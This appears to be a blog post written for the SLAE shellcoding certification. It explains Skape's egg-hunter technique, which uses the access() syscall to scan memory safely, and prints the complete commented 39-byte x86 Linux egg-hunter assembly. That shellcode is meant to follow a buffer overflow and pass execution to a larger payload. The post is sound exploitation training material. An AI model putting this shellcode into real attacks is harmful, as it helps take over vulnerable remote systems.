 ## SLAE Exam Assignment 3 - Creating an Egg-hunter shellcode

## Prologue
The third assignment for our SLAE Certification exam is creating an egg-hunter shellcode in such a way so as to make it's secondary payload configurable.

Egg-hunter remains an extremely important topic for study by exploitation analysts and rightfully so. 

So without any further ado, let's get down with it!

## So what is an egg-hunter anyway?
Imagine that you have found a buffer overflow exploit in a vulnerable software running in a remote machine but the buffer size or the space controlled by you is not nearly enough to fit a Bind/Reverse TCP shellcode :(

What do you do then?

Enter the Egg-hunter.

![Eggs](../assets/images/eggs.jpg "Eggs")

As many before me and also the ones who will be attempting this exam after me, there is one paper that stands out of all and is referenced by almost everyone perhaps because of it's simplicity and brilliance that is: [Safely Searching Process Virtual Address Space](https://github.com/upayansaha/SLAE-Code-Repository/blob/master/Assignment%203/egghunt-shellcode.pdf) by Skape.

I would recommend all the readers of this blog to read the paper first and then come back here.

I shall not discuss the paper in-depth in this blog-post. However, I shall mention some key concepts required for the analysis and implementation of an egg-hunter payload.
### Egg-hunter payload explained in a sentence
The egg-hunter is a shellcode usually optimized and small in size which is designed to find the final stage larger shellcode marked by an "egg"(4-8 bytes of data) and redirect execution flow to it once it finds it in the virtual address space.
### But how does it work?
The way the egg-hunter works is by iterating through the pages of memory and looking for the "egg" until its found.

Okay okay I get it but as far as I knew when a program tries to read unallocated memory in Linux, the program will crash throwing a `SIGSEGV` right?

Here comes Skape's out-of-the-box solution. He has devised a way to use the `access()` syscall to check whether a page of memory is accessible or not by using the memory address as argument and by checking the error code returned by the syscall, we can determine whether the page is accessible or not. This enables us to scan the memory safely.

Needless to say, if the page is inaccessible then it should skip to the next page directly otherwise it should continue scanning the page looking for our "egg".
### One final note
One last important matter to discuss is what should we consider as this "egg" that we are talking about?

Some implementations of the egg-hunter dictate the condition that the egg itself must be an executable for the egg-hunter to transfer the execution flow to the secondary payload stored somewhere else in memory.

Also, a single instance(4 bytes) of the egg shall be present in the egg-hunter itself so as to enable it to find it in memory by comparison right? Now there might be a scenario where the egg-hunter accidentally finds itself in process's memory thinking it has found the egg when it actually hasn't. So we must keep the egg as something unique.

In light of these issues, Skape has devised an 8-byte executable egg by simply appending the egg to itself making it unique and easily identifiable in the memory. While this is not strictly mandatory but in order to avoid adding unnecessary overheads and complexities, we shall also be using the original "egg" for the purposes of this blog post.

## Egg-hunter Assembly code
Here's the full assembly source of the egg-hunter shellcode:

```nasm
; Filename: egg-hunter_shellcode.nasm
; Author: Upayan a.k.a. slaeryan
; SLAE: 1525
; Contact: upayansaha@icloud.com
; Purpose: This is a x86 Linux null-free egg-hunter shellcode implementing Skape's 
; first technique using access() syscall
; Compile with:
; ./compile.sh egg-hunter_shellcode
; Size of shellcode: 39 bytes


global _start

section .text
_start:

    mov ebx, 0x50905090    ; Moving the 4-byte egg to EBX register
    xor ecx, ecx           ; Clearing ECX register
    mul ecx                ; Clearing EAX and EDX

    ; Function to skip to next page
    turn_page:             
    or dx, 0xfff           ; Bitwise OR of DX value - To load 4095 in DX

    ; Function to check whether the following 8 bytes of memory page is accessible or not
    check_page:
    inc edx                ; Increment EDX to make it a multiple of 4096 [PAGE_SIZE]
    pushad                 ; To preserve the current register values in stack
    lea ebx, [edx+0x4]     ; Load the address of the next 8 bytes in EBX to check
    mov al, 0x21           ; Load Syscall value for access() = 0x21 OR 33 in EAX
    int 0x80               ; Executing access() syscall
    cmp al, 0xf2           ; Comparing the return value in AL to 0xf2 == EFAULT
    popad                  ; Restore the register values as we preserved in the stack
    jz turn_page           ; Jump to next page if we got EFAULT otherwise continue

    ; Now that we know the memeory is accessible, we will search for our target!
    cmp [edx], ebx         ; Check if we got the egg in [EDX]
    jnz check_page         ; If not zero - Egg not found! Check the next 8 bytes of the page otherwise if zero - we already found the first 4 bytes of the egg
    cmp [edx+0x4], ebx     ; Check the next 4 bytes [EDX+4] to confirm the kill
    jnz check_page         ; If not zero - Egg wasn't found, false positive! otherwise if zero - mission accomplished - egg found successfully!
    jmp edx                ; Transfer control to the secondary payload
```

There's not much to exaplain in this source as I have commented in-detail on almost every line of code. 

